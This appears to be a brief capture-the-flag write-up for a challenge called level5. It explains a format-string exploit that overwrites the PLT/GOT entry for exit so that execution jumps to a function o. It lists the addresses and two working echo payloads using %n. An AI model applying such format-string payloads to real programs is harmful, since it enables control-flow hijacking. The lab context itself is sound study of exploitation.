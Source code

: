 # level5

This time, we need to use the format exploit to overwrite of the address of `exit`
in the `plt` and redirect it to function `o`.

## Useful infos

`readelf -r level5`
address to overwrite: 0x08049838 = \x38\x98\x04\x08
new value: 0x080484a4 = 134513828 (address of `o`)

exploit: `echo -e "\x38\x98\x04\x08%134513824x%4\$n"`
exploit: `echo -e "\x38\x98\x04\x08%134513808x%x%x%n"`